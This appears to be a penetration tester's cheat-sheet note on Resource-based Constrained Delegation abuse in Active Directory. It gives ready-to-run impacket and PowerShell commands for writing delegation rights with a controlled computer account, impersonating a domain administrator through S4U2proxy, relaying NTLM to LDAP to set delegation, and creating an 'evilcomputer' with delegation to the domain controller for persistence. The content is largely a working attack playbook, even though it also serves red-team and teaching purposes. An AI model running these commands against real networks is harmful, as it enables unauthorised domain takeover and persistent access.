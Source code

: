 ```yaml
---
title: RBCD
---
```


[[notes/ad/kerberos]] Resource-based Constrained Delegation requires a domain functional level of Windows Server 2012 or higher.
It is configured by writing the SID of the frontend service to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the backend service.
The frontend service must have a SPN.

This means if you have write access to a computer object and you have the credentials of another [[notes/ad/domain-computer|computer account]] you can use RBCD to become local admin on the computer.

[[notes/ad/dacl-abuse|Abuse]] `GenericWrite` on `srv01$` while controlling `hackerpc$` to setup RBCD.
Then impersonate a domain admin on `srv01$` trough [[notes/ad/kerberos-s4u2proxy]].

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-rbcd -action write -delegate-from 'hackerpc$' -delegate-to 'srv01$' -hashes :$nthash corp.local/jdoe
    impacket-getst -impersonate administrator -spn cifs/srv01.corp.local -hashes :$nthash 'corp.local/hackerpc$'
    export KRB5CCNAME="$PWD/administrator.ccache"
    ~~~

=== "[[notes/tools/powershell-rsat]]"
    ~~~ powershell
    Set-ADComputer 'srv01' -PrincipalsAllowedToDelegateToAccount (Get-ADComputer 'hackerpc' -Server dc01.corp.local) -Server dc01.corp.local
    ~~~

Reflective RBCD from computer to itself.
Then impersonate a domain admin on the computer trough [[notes/ad/kerberos-s4u2proxy]].

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-rbcd -action write -delegate-from 'srv01$' -delegate-to 'srv01$' -hashes :$nthash 'corp.local/srv01$'
    impacket-getst -impersonate administrator -spn cifs/srv01.corp.local -hashes :$nthash 'corp.local/srv01$'
    export KRB5CCNAME="$PWD/administrator.ccache"
    ~~~

Clean up.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-rbcd -action flush -delegate-from 'hackerpc$' -delegate-to 'srv01$' -hashes :$nthash corp.local/jdoe
    ~~~

=== "[[notes/tools/powershell-rsat]]"
    ~~~ bash
    Set-ADComputer 'srv01'-clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Server dc01.corp.local
    ~~~

NTLM relay [[notes/ad/ntlm-relay-to-ldap|to LDAP]] and open an interactive LDAP shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --interactive --target ldaps://dc01.corp.local
    ~~~

    ~~~
    $ nc -v 127.0.0.1 11000
    # set_rbcd srv01$ hackerpc$
    # clear_rbcd srv01$
    # exit
    ~~~

NTLM relay [[notes/ad/ntlm-relay-to-ldap|to LDAP]].
If `--escalate-user` is not specified a new computer account will be created.
If this is not possible the attack fails.
Requires manual cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --delegate-access --escalate-user 'hackerpc$' --target ldaps://dc01.corp.local
    ~~~

[[notes/ad/persistence]] as domain admin by configuring RBCD from a computer you control to a DC.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-addcomputer -computer-name evilcomputer -k -no-pass corp.local/administrator
    impacket-rbcd -action write -delegate-from 'evilcomputer$' -delegate-to 'dc01$' -k -no-pass corp.local/administrator
    ~~~

References:

- [A Hitch-hacker's Guide to DACL-Based Detections (Part 1A)](http://web.archive.org/web/20231010183106/https://trustedsec.com/blog/a-hitchhackers-guide-to-dacl-based-detections-part-1-a)
- [You Do (Not) Understand Kerberos Delegation - RBCD](https://www.youtube.com/watch?v=vlKwCTvp5_w)
- [S4fuckMe2selfAndUAndU2proxy - A low dive into Kerberos delegations](http://web.archive.org/web/20221130170845/https://luemmelsec.github.io/S4fuckMe2selfAndUAndU2proxy-A-low-dive-into-Kerberos-delegations/)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to attack Active Directory](http://web.archive.org/web/20221124041440/https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- iX Kompakt Sicheres Active Directory S. 60ff
- [thehacker.recipes/ad/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
- [thehacker.recipes/ad/persistence/delegation-to-krbtgt](https://www.thehacker.recipes/ad/persistence/delegation-to-krbtgt)
